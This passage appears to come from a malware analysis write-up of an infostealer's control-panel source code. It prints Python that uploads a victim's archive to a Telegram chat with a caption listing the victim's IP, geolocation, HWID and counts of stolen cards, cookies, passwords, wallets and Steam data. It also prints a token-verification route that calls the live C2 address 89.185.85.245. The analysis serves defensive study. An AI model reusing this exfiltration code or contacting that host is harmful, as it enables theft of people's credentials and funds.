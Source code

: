         ) as client:
            data = {
                "chat_id": chat_id,
                "caption": f"""💻IP: {ip}
🌏Geo: {geo}
🛰Hwid: {hwid}
🛢Build name: {build_name}
💳Credit card: {credit_card_count}
🍪Cookies: {cookies_count}
🔑Password: {passwords_count}
💸Wallets: {wallets_count}
🎮Steam: {steam}"""
            }
            files = {
                "document": (f"[{geo}] {hwid}.7z", open(path, "rb"), "application/x-7z-compressed")
            }
            resp = await client.post("/sendDocument", files=files, data=data)
            await resp.aclose()
    except KeyboardInterrupt as ki:
        raise ki
    except BaseException as ex:
        return logger.error(ex)

{% endhighlight %}

The code below is responsible for adding tokens and validating their integrity, ensuring their authenticity before interacting with the main server. It performs validations on the received data, such as checking the timestamp and verifying the integrity of the data. The code checks the provided timestamp against the current UTC timestamp to ensure it is within an acceptable range. If the timestamp is invalid, an error response is returned. If the validations pass, the code encrypts the token and sends a request to the main server (hxxp://89.185.85[.]245) with the encrypted token and other necessary information. The code uses the **HashGenerator** class and the SHA-512 hash algorithm (sha512) to generate a hash of the concatenated values of **token** and **data.utc_timestamp**. It then compares this generated hash with the provided **data.sign**. If the hashes do not match, an error response is returned, indicating that the input data cannot be validated. The response from the server is processed, and if the authentication is successful (based on the **success** flag in the response), the received token is stored in the database for further use. A similar operation is performed in the **payload**. The **payload** is sent to a remote server as part of an HTTP request. The server will use the provided **sign** value to validate the integrity of the data by performing the same hash calculation on its end, taking the generated hash value for **panel_hash** obtained from the registry key into consideration.

{% highlight python %}
  
@bp.route("/token", methods=[RequestMethod.POST])
async def add_token() -> Response:
    json_data = await request.json
    if not AddTokenRequest.validate(json_data):
        return bad_request("Could not validate input data!", additional_data={"success": False})
    data = AddTokenRequest(**json_data)
    if (datetime.datetime.utcnow() - datetime.datetime.fromtimestamp(data.utc_timestamp)) > REQUEST_TIMESTAMP_DELTA:
        return bad_request("Invalid timestamp date!", additional_data={"success": False})
    key = base64.urlsafe_b64decode(data.nonce.encode(Encodings.UTF_8))
    cipher = XSalsaPoly1305(sha256(key, encoder=RawEncoder))
    token = cipher.decrypt_as_string(data.token, encoder=URLSafeBase64Encoder)
    token = TokenSigner.get_and_verify(token)
    if not token:
        return bad_request("Failed to validate user token!", additional_data={"success": False})
    if not HashGenerator(sha512(key, encoder=RawEncoder)).hash_verify(message=token + str(data.utc_timestamp), message_hash=data.sign, encoder=URLSafeBase64Encoder):
        return bad_request("Could not validate input data!", additional_data={"success": False})
    try:
        async with httpx.AsyncClient(
            base_url="http://89.185.85.245",